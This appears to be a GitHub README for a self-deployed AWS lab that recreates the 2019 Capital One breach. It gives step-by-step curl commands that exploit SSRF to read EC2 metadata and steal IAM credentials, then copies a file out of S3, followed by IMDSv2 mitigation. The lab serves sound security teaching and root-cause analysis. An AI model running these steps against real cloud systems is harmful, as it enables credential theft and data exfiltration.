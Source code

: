 # CapitalOne-Breach-Simulation-Lab
Code and artifacts for the Adversary Emulation phase of a Root Cause Analysis of the 2019 Capital One breach report.

Based on the lab by Shay Raize Meshulam: [shayrm/CapitalOne-SSRF-demo](https://github.com/shayrm/CapitalOne-SSRF-demo)

# Purpose

This lab is designed for educational purposes to validate my CAPITAL One breach 2019 root cause analysis report to show how SSRF vulnerabilities can be exploited in a cloud environment, and then the danger of overly permissive IAM roles, how compromised EC2 metadata can lead to data breach from S3, and the effectiveness of IMDSv2 for mitigation. The lab was followed based on the GitHub repository that Say Raize Meshulam published as guidance, and modifications were made from the original main: the tf file and the readme file addressed errors from the previous instruction.

#Prerequisites

AWS Account(Free tier is fine), EC2 Key Pair, AWS CLI, Terraform, Main.tf file, Local secret CSV file.

#Setup Instructions
1. Download main.tf and top_secret_file.csv into the local directory.
2. Modify main.tf. Please refer to the comments in the file and ensure your configuration is valid—region, key_pair, ubuntu-ami, bucket_name need to be changed.
3. Initialize Terraform by opening the terminal.tf file and local secret CSV file are installed and run:

terraform init

4. Validate Configuration: 

terraform fmt
terraform validate
terraform plan


5. Deploy the Lab:

terraform apply

Check that public_ip and instance_id are displayed correctly in the terminal.

Note the public_ip and instance_id from the output.

# Instructions for running  Attack Simulation

1. Check Server Response:

curl http://<public_ip>/

Replace <public_ip> with your public IP that you previously obtained on the transform apply stage.

2. Exploit SSRF to List Metadata:

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)"


3. Navigate to Credentials:

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/](http://169.254.169.254/latest/meta-data/iam/)"
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)"

The output will be the role name: c-demo-role


4. Steal Credentials: 

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)c-demo-role/"


The output will be a JSON object containing AccessKeyId, SecretAccessKey, and Token.


5. Configure Attacker Profile:

aws configure set aws_session_token [YOUR_TOKEN] --profile c-demo

aws configure --profile c-demo
Enter stolen AccessKeyId, SecretAccessKey, region (e.g., us-east-2), format (json)

Copy the credentials from the JSON output and leave the token blank at the aws configure --profile c-demo stage, you already entered it.



6. Verify Access dnd List Buckets:

aws s3 ls --profile c-demo


You should be able to see your unique bucket name

7. Exfiltrate Data: 

aws s3 ls s3://<bucket_name> --profile c-demo
aws s3 cp s3://<bucket_name>/top_secret_file.csv ./ --profile c-demo

(Replace <bucket_name> with your unique bucket name)

8. Verify that it is downloading to the correct directory and check the content inside
   ls
   cat top_secret_file

#Mitigation

Enforce IMDSv2:

aws ec2 modify-instance-metadata-options --instance-id "<instance_id>" --http-tokens required --http-endpoint enabled

Use instance_id with the ID from the terraform apply output


Verify Mitigation: 
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)"

It should fail when you try to attempt it again.

#Clean Up

To avoid unexpected AWS charges, destroy all created resources after you finish your activity:

terraform destroy
